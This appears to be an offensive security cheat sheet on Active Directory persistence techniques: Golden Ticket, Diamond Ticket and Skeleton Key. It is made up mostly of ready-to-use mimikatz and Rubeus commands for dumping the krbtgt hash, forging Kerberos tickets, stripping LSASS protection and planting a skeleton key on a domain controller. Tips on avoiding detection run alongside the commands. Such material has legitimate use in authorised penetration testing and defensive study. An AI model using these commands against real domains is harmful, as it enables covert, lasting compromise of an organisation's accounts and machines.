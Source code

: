 
## Active Directory Persistence

### Golden Ticket

- Note: prefeer Silver Ticket instead. Short time, but less detection.
- With this attack, you can gain access to every machine in the AD
- You need a kerberoast ticket granting account and With mimikatz from the DC
- You may need to purge: `kerberos::purge`
- See this if you are having trouble: [Mimikatz 2.0 - Golden Ticket Walkthrough](https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html)

Process
1. `privilege::debug`
2. Dump the krbtgt hash
   - `lsadump::lsa /inject /name:krbtgt or `lsadump::lsa /patch`
   - copy the SID and the NTLM
3. `kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:<SID> /krbtgt:<NTLM> /ptt`
4. `misc::cmd`
5. from the opened CMD, try `dir \\USERNAME\\C$`
   - consider also to download psexec in the machine compromised for more access
   - `psexec.exe \\USERNAME cmd.exe`

### Diamond ticket

- Create a diamond ticket using Rubeus (note that RC4 or AES keys of the user can be used too): `Rubeus.exe diamond /krbkey:<krb_key> /user:<user> /password:<password> /enctype:<encryption_type> /ticketuser:<ticket_user> /domain:<domain> /dc:<domain_controller> /ticketuserid:<ticket_user_id> /groups:<groups> /createnetonly:<command_to_execute> /show /ptt`
- Use `/tgtdeleg` option in place of credentials `/user: /password:` in case we have access as a domain user

### Skeleton Key

Notes
- It enables you to access any user by using a valid username with the skeleton key as password.
- It's not opsec safe and is also known to cause issues with AD CS (it can crash the enviorment for everybody)
- If you use mimikatz, change the password used by it.

Process
1. `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <target_computer_name>`
2. `Enter-PSSession -Computername <target_computer_name> -credential <domain>\<username>`

In case lsass is running as a protected process (PPS), it needs the mimikatz driver (mimidriv.sys) on disk of the target DC (very noisy in logs - Service installation (Kernel mode driver))
```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
